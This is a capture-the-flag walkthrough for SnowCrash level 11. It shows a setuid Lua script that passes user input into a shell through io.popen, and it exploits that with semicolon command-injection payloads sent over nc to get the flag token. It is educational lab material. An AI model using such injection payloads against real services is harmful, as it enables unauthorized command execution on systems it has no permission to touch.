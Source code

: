 # Level 11

- Once logged in, you will see a file `level11.lua`

```
???$ ssh level11@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level11@localhost's password:
level11@SnowCrash:~$ ls
level11.lua
level11@SnowCrash:~$ ls -ls
total 4
4 -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

[what is `lua` file?](https://en.wikipedia.org/wiki/Lua_(programming_language))
```
level11@SnowCrash:~$ file level11.lua
level11.lua: setuid setgid a lua script, ASCII text executable
```

let\`s run `lua`, and take a look at the script

```
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
there is something going on port `5151`
```
level11@SnowCrash:~$ nc -zv localhost 5151
Connection to localhost 5151 port [tcp/pcrd] succeeded!
```

as the script itself describes, there is a process running on `5151` port, and get input, compare the hash value, and determine whether the value is right or wrong.

but let's take a look the `function hash(pass)`

```
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
```
On second line, it executes `io.popen(...)` where a process is executed. and `..pass..` is the place where paramater is passed.

As long as the parameter is passed into the function, it will execute command.

Let's try out
```
level11@SnowCrash:~$ nc localhost 5151
Password: ; echo hello world > /tmp/flag11
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag11
hello world
```

And how about...

```
level11@SnowCrash:~$ nc localhost 5151
Password: ; getflag > /tmp/flag
Erf nope..
```

```
level11@SnowCrash:~$ nc localhost 5151
Password: ; getflag > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
``
